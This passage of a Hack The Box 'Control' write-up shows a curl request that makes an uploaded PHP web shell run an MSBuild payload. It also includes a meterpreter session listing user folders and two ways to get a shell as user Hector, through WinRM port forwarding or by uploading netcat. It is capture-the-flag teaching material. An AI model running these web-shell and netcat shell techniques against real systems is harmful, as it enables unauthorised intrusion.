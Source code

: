 `curl 10.10.10.167/uploads/bobinette.php?c='C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe%20c:\inetpub\wwwroot\uploads\9001.xml'`

![](/assets/images/htb-writeup-control/shell1.png)

The flag is probably in Hector's home directory but I don't have access to it.

```
meterpreter > ls /users
Listing: /users
===============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2019-11-05 07:34:03 -0500  Administrator
40777/rwxrwxrwx   0     dir   2018-09-15 03:28:48 -0400  All Users
40555/r-xr-xr-x   8192  dir   2018-09-15 02:09:26 -0400  Default
40777/rwxrwxrwx   0     dir   2018-09-15 03:28:48 -0400  Default User
40777/rwxrwxrwx   8192  dir   2019-11-01 05:09:15 -0400  Hector
40555/r-xr-xr-x   4096  dir   2018-09-15 03:19:00 -0400  Public
100666/rw-rw-rw-  174   fil   2018-09-15 03:16:48 -0400  desktop.ini

meterpreter > ls /users/hector
[-] stdapi_fs_ls: Operation failed: Access is denied.
```

## Getting access as user Hector

There's two easy ways to get a shell as Hector using the credentials found in the database:

1.Port forward port 5985 and land a shell using WinRM
![](/assets/images/htb-writeup-control/shell2.png)

2.Upload netcat and use powershell to execute it as user Hector
![](/assets/images/htb-writeup-control/upload.png)

